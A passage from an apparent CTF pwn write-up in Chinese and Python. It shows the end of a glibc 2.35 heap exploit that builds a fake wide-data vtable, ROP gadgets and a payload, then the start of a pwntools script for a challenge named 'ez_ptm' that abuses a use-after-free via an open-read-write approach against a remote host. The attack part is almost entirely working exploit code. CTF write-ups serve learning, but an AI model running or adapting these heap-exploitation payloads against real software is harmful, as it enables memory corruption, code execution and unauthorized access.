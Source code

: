 fake_wide_data = flat({0xe0-0x18:fake_wide_data_vtable},filler=b'\x00')

pay = fake_io[0x10:]+fake_wide_data+p64(gadget1)+p64(0)*6+p64(rop_ptr)+p64(ret)+rop_chain

edit(0,pay)

# gdb.attach(io,'direct /home/xixi/桌面/glibc-source/glibc-2.35\nb _IO_wdoallocbuf\nc')
menu(5)




io.interactive()
ez_ptm
走orw就行，和baby_heap没什么区别，都有uaf。
from pwn import *
context(arch='amd64',log_level='debug')
file = './pwn'
io = process(file)
io = remote('27.25.151.26',32022)
elf = ELF(file)
# libc = elf.libc
libc = ELF('./libc.so.6')
# gdb.attach(io)
s       = lambda data               :io.send(data)
sa      = lambda text,data          :io.sendafter(text, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda text,data          :io.sendlineafter(text, data)
r       = lambda num=4096           :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda text               :io.recvuntil(text)
uu32    = lambda                    :u32(io.recvuntil(b"\xf7")[-4:].ljust(4,b"\x00"))
uu64    = lambda                    :u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
inf     =  lambda s                 :info(f"{s} ==> 0x{eval(s):x}")

menu = lambda  s :sla(b'Your choice >> ',str(s))
def add(idx,size):
    menu(1)
    sla(b'Index:\n',str(idx))
    sla(b'Size:\n',str(size))
def free(idx):
    menu(2)
    sla(b'Index:\n',str(idx))
def edit(idx,size,content):
    menu(3)
    sla(b'Index:\n',str(idx))
    sla(b'Size:\n',str(size))
    s(content)
def show(idx):
    menu(4)
    sla(b'Index:\n',str(idx))
def uaf(idx):
    menu(0x1314520)
    sla(b'Index:\n',str(idx))
add(0,0x410)
add(1,0x410)
add(2,0x420)
add(3,0x420)
uaf(2)
